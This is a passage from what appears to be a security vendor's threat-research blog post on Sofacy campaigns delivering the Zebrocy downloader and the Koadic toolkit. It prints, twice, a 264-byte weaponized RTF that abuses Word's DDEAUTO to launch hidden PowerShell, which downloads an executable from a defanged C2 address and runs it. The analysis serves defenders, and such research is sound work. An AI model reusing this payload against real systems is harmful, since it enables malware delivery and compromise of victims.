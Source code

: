 



The unused command above appears to be related to previous attacks, specifically attacks that occurred in November 2017 as discussed by McAfee and ESET. The payload delivered in these November 2017 attacks using DDE enabled documents was SofacyCarberp, which differs from the Zebrocy downloader delivered in the February 2018 attacks.
115fd8c61… was another Zebrocy sample we were able to pivot from by gathering additional samples connecting to its C2 86.106.131[.]177. The additional samples targeted the same large Central Asian nation state as previously mentioned but more interestingly, one of the samples was a weaponized document also leveraging DDE and containing a non-Zebrocy payload. The payload turned out to be an open source penetration test toolkit called Koadic. It is a toolkit similar to Metasploit or PowerShell Empire and is freely available to anyone on Github.

Figure 6 Example of delivery document
The RTF document (8cf3bc2bf...) was very small in size at 264 bytes, which can be seen in its entirety here:





{\rtf1{\field{\*\fldinst DDEAUTO "C:\\\\WIndowS\\\\SYsTem32\\\\cMD.eXe
 " "/C	POWErsHELl.eXE  -ex     BypaSs  -NOP	-w      HIdDen  (NEw-
oBjeCT SyStEm.NET.weBCLiENT).dowNloADFILe(
 'hxxp://86.106.131[.]177/link/GRAPH.EXE'
  ,       '%apPDAtA%\graph.exe'   )   	;       saps
    '%Appdata%\graph.exe'"}}}




123456

{\rtf1{\field{\*\fldinst DDEAUTO "C:\\\\WIndowS\\\\SYsTem32\\\\cMD.eXe " "/C	POWErsHELl.eXE  -ex     BypaSs  -NOP	-w      HIdDen  (NEw-oBjeCT SyStEm.NET.weBCLiENT).dowNloADFILe( 'hxxp://86.106.131[.]177/link/GRAPH.EXE'  ,       '%apPDAtA%\graph.exe'   )   	;       saps    '%Appdata%\graph.exe'"}}}





The contents above use the DDE functionality in Microsoft Word to run a PowerShell script to download the Koadic payload from a remote server, save it as an executable file on the system and then execute the payload.
Conclusion
The Sofacy group continues their targeted attack campaigns in 2018. As mentioned in this blog, Sofacy is carrying out parallel campaigns to attack similar targets around the world but with different toolsets. The Zebrocy tool associated with this current strain of attacks is constructed in several different forms based on the programming language the developer chose to create the tool. We have observed Delphi, AutoIt, and C++ variants of Zebrocy, all of which are related not only in their functionality, but also at times by chaining the variants together in a single attack. These attacks are still largely perpetrated via spear phishing campaigns, whether via simple executable attachments in hopes that a victim will launch the file to using a previously observed DDE exploitation technique.
Palo Alto Networks customers are protected from Zebrocy and Koadic attacks by:

All known Zebrocy samples have a malicious verdict in WildFire
AutoFocus customers can track this campaign with the following Tags:

Zebrocy
Koadic
